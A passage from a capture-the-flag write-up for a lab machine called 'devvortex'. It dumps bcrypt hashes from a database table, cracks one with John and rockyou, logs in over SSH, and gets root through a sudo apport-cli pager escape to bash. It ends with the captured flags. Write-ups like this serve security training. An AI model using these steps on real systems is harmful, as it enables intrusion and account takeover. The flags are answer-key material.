             ```

            1. Lets checkout the "sd4fg_users" table
         4. > select * from sd4fg_users;
            1. lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
            2. logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
               1. Maybe we can crack these hashes
10. CRACK THE HASH
    1. Creat hash.txt
       1. > echo 'logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
    2. JOHN
       1. > john ./hash.txt --wordlist=/opt/rockyou.txt
          1. RESPONSE: "tequieromucho"
          2. Bingo! Now we have a username and password
11. SSH 
    1. We could switch users with our current revshell, but lets ssh in as logan instead
       1. > ssh logan@
          1. PW: tequieromucho
12. ENUMERATION
    1. Check for sudo priliveges (if any)
       1. > sudo -l

            ```text
                Matching Defaults entries for logan on devvortex:
                    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

                User logan may run the following commands on devvortex:
                    (ALL : ALL) /usr/bin/apport-cli
            ```

            1. It looks like we can run /usr/bin/apport-cli as root
    2. Get user flag
       1. > cat /home/logan/user.txt
          1. FLAG: `285bd04e935944bee2c87eded0f9c776`
    3. RESEARCH
       1. Apport-cli -> this looks like it is a tool that automatically collects data from crashed processes and compiles a problem report (man page)
       2. Apport-cli exploit -> looks like we can run this as sudo and generate a crash report, then use !/bin/bash to get a shell
13. EXPLOIT
    1. Lets try running our apport-cli as sudo and then runing bash
       1. > sudo /usr/bin/apport-cli --file-bug
          1. Create the report
          2. Then VIEW the report - this is important as this is where we use the : !/bin/bash
          3. > !/bin/bash
             1. SUCCESS
    2. ROOT
       1. Get the root flag
          1. > cat /root/root.txt
             1. FLAG: `7176c68ae79eb1c85f863bd045e84bcd`

## QUESTIONS

1. Submit user flag
   1. `285bd04e935944bee2c87eded0f9c776`
2. Submit root flag
   1. `7176c68ae79eb1c85f863bd045e84bcd`
